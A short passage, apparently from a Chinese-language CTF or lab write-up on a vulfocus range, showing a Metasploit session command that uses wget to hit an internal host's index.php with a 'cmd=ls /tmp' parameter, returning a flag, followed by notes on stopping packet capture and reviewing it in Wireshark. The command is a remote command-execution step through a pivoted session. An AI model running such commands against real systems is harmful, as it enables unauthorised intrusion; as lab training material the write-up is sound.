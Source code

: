 ```bash
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```
![](../img/Dracuspicy/76.png)

成功拿到flag

![](../img/Dracuspicy/77.png)

#### 停止抓包
- 进入 vulfocus 所在虚拟机的 GUI 桌面，使用 Wireshark 打开捕获到的数据包
- 通过 scp 将捕获到的数据包拷贝到宿主机上使用 Wireshark 分析
